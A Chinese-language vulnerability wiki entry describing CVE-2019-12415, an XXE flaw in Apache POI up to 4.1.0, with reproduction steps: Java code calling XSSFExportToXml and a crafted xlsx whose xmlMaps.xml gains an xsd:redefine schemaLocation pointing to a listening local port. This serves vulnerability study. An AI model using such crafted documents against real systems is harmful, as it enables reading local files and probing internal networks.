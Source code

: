 （CVE-2019-12415）Apache POI \<= 4.1.0 XXE漏洞
==============================================

一、漏洞简介
------------

### 什么是POI

Apache
POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft
Office格式档案读和写的功能。

### 关于CVE-2019-12415

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache
POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft
Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1
XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 XSSFExportToXml\#isValid 方法里，如果
XSSFExportToXml\#exportToXML方法的第三个参数为true逐步进入
isValid触发XXE。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-12415)ApachePOI<=4.1.0XXE漏洞/media/rId24.png)

二、漏洞影响
------------

Apache POI\<=4.1.0

三、复现过程
------------

    XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
    for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true}

然后下载这个xlsx文件。

    https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx

把文件替换为" CustomXMLMappings.zip"并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在 [xsd:schema](xsd:schema) 标签里面加上一行代码。

    <xsd:redefine schemaLocation="http://127.0.0.1:8080/"/>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-12415)ApachePOI<=4.1.0XXE漏洞/media/rId28.png)

然后把xlsx释放出来的所有文件再用zip打包回去，改成
CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-12415)ApachePOI<=4.1.0XXE漏洞/media/rId29.png)
